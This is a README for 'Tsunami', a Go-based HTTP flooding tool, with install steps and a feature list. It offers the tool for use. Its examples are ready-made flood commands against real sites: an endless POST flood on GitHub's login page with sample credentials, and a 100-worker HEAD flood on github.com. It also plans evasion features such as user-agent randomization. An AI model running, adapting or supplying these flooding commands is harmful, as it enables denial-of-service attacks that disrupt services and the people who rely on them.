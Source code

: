 # Tsunami
An advanced HTTP flooder written in Golang

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://example.com --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Features
- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

## Examples
### Low volume POST flood lasting forever
```bash
./tsunami -w 2 "https://github.com/login" POST "username=Ammar&password=g1thuB123"
```
### High volume HEAD flood lasting for 10 minutes
```bash
./tsunami -w 100 -s 600 "https://github.com/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - All HTTP methods
 - Custom headers
 - Pretty display of attack stats
 - ???